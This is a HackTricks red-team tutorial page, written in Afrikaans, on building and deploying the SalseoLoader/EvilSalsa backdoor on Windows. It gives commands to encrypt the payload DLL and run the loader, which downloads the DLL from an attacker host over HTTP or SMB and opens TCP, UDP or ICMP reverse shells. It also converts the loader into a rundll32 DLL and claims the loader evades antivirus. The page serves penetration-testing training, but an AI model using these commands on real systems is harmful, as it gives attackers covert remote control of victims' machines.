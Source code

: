 # Salseo

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PR's in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Samevoeging van die binêre

Laai die bronkode van die github af en saam te stel **EvilSalsa** en **SalseoLoader**. Jy sal **Visual Studio** geïnstalleer moet hê om die kode saam te stel.

Stel daardie projekte saam vir die argitektuur van die Windows-boks waar jy dit gaan gebruik (As die Windows x64 ondersteun, stel dit saam vir daardie argitektuur).

Jy kan **die argitektuur kies** binne Visual Studio in die **linker "Build" Tab** in **"Platform Target".**

(\*\*As jy nie hierdie opsies kan vind nie, druk op **"Project Tab"** en dan op **"\<Project Name> Properties"**)

![](<../.gitbook/assets/image (839).png>)

Dan, bou albei projekte (Build -> Build Solution) (Binne die logs sal die pad van die uitvoerbare verskyn):

![](<../.gitbook/assets/image (381).png>)

## Berei die Backdoor voor

Eerstens, jy sal die **EvilSalsa.dll** moet kodeer. Om dit te doen, kan jy die python skrip **encrypterassembly.py** gebruik of jy kan die projek **EncrypterAssembly** saamstel:

### **Python**
```
python EncrypterAssembly/encrypterassembly.py <FILE> <PASSWORD> <OUTPUT_FILE>
python EncrypterAssembly/encrypterassembly.py EvilSalsax.dll password evilsalsa.dll.txt
```
### Windows
```
EncrypterAssembly.exe <FILE> <PASSWORD> <OUTPUT_FILE>
EncrypterAssembly.exe EvilSalsax.dll password evilsalsa.dll.txt
```
Ok, nou het jy alles wat jy nodig het om al die Salseo goed te uitvoer: die **gecodeerde EvilDalsa.dll** en die **binarie van SalseoLoader.**

**Laai die SalseoLoader.exe binarie op die masjien. Hulle behoort nie deur enige AV opgespoor te word nie...**

## **Voer die backdoor uit**

### **Kry 'n TCP reverse shell (aflaai van die gecodeerde dll deur HTTP)**

Onthou om 'n nc as die reverse shell luisteraar te begin en 'n HTTP bediener op te stel om die gecodeerde evilsalsa te bedien.
```
SalseoLoader.exe password http://<Attacker-IP>/evilsalsa.dll.txt reversetcp <Attacker-IP> <Port>
```
### **Kry 'n UDP omgekeerde skulp (aflaai van kodering dll deur SMB)**

Onthou om 'n nc as die omgekeerde skulp luisteraar te begin, en 'n SMB-bediener om die gekodeerde evilsalsa (impacket-smbserver) te bedien.
```
SalseoLoader.exe password \\<Attacker-IP>/folder/evilsalsa.dll.txt reverseudp <Attacker-IP> <Port>
```
### **Kry 'n ICMP omgekeerde skulp (gecodeerde dll reeds binne die slagoffer)**

**Hierdie keer het jy 'n spesiale hulpmiddel in die kliënt nodig om die omgekeerde skulp te ontvang. Laai af:** [**https://github.com/inquisb/icmpsh**](https://github.com/inquisb/icmpsh)

#### **Deaktiveer ICMP Antwoorde:**
```
sysctl -w net.ipv4.icmp_echo_ignore_all=1

#You finish, you can enable it again running:
sysctl -w net.ipv4.icmp_echo_ignore_all=0
```
#### Voer die kliënt uit:
```
python icmpsh_m.py "<Attacker-IP>" "<Victm-IP>"
```
#### Binne die slagoffer, laat ons die salseo ding uitvoer:
```
SalseoLoader.exe password C:/Path/to/evilsalsa.dll.txt reverseicmp <Attacker-IP>
```
## Samevoeging van SalseoLoader as DLL wat hoof funksie uitvoer

Open die SalseoLoader projek met Visual Studio.

### Voeg voor die hoof funksie by: \[DllExport]

![](<../.gitbook/assets/image (409).png>)

### Installeer DllExport vir hierdie projek

#### **Gereedskap** --> **NuGet Pakketbestuurder** --> **Bestuur NuGet Pakkette vir Oplossing...**

![](<../.gitbook/assets/image (881).png>)

#### **Soek vir DllExport pakket (met die Blader tab), en druk Installeer (en aanvaar die pop-up)**

![](<../.gitbook/assets/image (100).png>)

In jou projekmap het die lêers verskyn: **DllExport.bat** en **DllExport\_Configure.bat**

### **U**ninstalleer DllExport

Druk **Uninstall** (ja, dit is vreemd maar glo my, dit is nodig)

![](<../.gitbook/assets/image (97).png>)

### **Verlaat Visual Studio en voer DllExport\_configure uit**

Net **verlaat** Visual Studio

Gaan dan na jou **SalseoLoader gids** en **voer DllExport\_Configure.bat** uit

Kies **x64** (as jy dit binne 'n x64 boks gaan gebruik, dit was my geval), kies **System.Runtime.InteropServices** (binne **Namespace vir DllExport**) en druk **Toepas**

![](<../.gitbook/assets/image (882).png>)

### **Open die projek weer met Visual Studio**

**\[DllExport]** moet nie langer as 'n fout gemerk wees nie

![](<../.gitbook/assets/image (670).png>)

### Bou die oplossing

Kies **Uitset tipe = Klas Biblioteek** (Projek --> SalseoLoader Eienskappe --> Aansoek --> Uitset tipe = Klas Biblioteek)

![](<../.gitbook/assets/image (847).png>)

Kies **x64** **platform** (Projek --> SalseoLoader Eienskappe --> Bou --> Platform teiken = x64)

![](<../.gitbook/assets/image (285).png>)

Om die oplossing te **bou**: Bou --> Bou Oplossing (Binne die Uitset konsole sal die pad van die nuwe DLL verskyn)

### Toets die gegenereerde Dll

Kopieer en plak die Dll waar jy dit wil toets.

Voer uit:
```
rundll32.exe SalseoLoader.dll,main
```
As daar geen fout verskyn nie, het jy waarskynlik 'n funksionele DLL!!

## Kry 'n shell met die DLL

Moet nie vergeet om 'n **HTTP** **bediener** te gebruik en 'n **nc** **luisteraar** in te stel nie

### Powershell
```
$env:pass="password"
$env:payload="http://10.2.0.5/evilsalsax64.dll.txt"
$env:lhost="10.2.0.5"
$env:lport="1337"
$env:shell="reversetcp"
rundll32.exe SalseoLoader.dll,main
```
### CMD
```
set pass=password
set payload=http://10.2.0.5/evilsalsax64.dll.txt
set lhost=10.2.0.5
set lport=1337
set shell=reversetcp
rundll32.exe SalseoLoader.dll,main
```
{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
